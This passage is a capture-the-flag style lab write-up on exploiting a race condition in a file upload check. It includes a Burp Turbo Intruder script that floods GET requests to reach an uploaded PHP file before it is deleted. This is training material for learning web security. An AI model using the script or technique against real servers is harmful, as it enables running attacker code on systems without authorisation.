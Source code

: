 ```php
    } else {
        return true;
    }
}
?>
```

<br>
### Solutions
* * *
<br>
#### Solution 1: My Solution
The main logic for me to solve this lab was to upload a suitable sized file(not small not that large) then because of this vulnerable code exposed in hint section, I knew that my PHP file would be on the server for a fraction of a second then the virus and extension check would be done on it then because it is a PHP file and not a JPG or PNG, it would be deleted, so I could use race condition to read the PHP file in a few milliseconds that the file exists on the server before deletion so: I used Burp Turbo Intruder for solving this lab to be able to send GET requests to read the PHP file as fast as I can. A simple code is used in Turbo Intruder for solving this lab:

```py
def queueRequests(target, wordlists):

    engine = RequestEngine(endpoint=target.endpoint,

                           concurrentConnections=80,

                           requestsPerConnection=1,

                           pipeline=False

                           )

    i = 0

    while i < 10000:

        engine.queue(target.req, None)

        i += 1


def handleResponse(req, interesting):

    # currently available attributes are req.status, req.wordcount, req.length and req.response

    if req.status != 404:

        table.add(req)
```
